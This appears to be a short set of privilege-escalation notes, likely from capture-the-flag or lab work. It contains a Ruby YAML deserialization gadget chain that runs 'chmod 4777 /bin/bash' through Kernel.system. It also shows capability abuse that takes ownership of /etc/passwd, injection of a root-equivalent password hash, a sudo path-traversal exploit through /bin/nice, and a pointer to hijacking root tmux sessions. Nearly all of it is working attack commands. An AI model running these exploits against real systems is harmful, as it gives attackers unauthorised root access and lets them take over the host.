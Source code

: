 ```dependencies.yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod 4777 /bin/bash"
         method_id: :resolve
```

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565


## ruby cap_chown+ep

```bash
george@empline:~$ ruby -e "require 'fileutils'" -e "FileUtils.chown('george','george','/etc/passwd')"
george@empline:~$ ls -la /etc/passwd
-rw-r--r-- 1 george george 1660 Jul 20  2021 /etc/passwd

```

    openssl passwd -1 -salt root2 root   

$1$root2$qP6XJjGSJ/b7ZfJp.GGl80

add this hash in /etc/passwd and su root2 got root

## Path abuse

(ALL : ALL) /bin/nice /notes/*

exploit: 

sudo /bin/nice /notes/../home/webadmin/root.sh

## ps Tmux

Tmux sessions are open include root

tmux ls
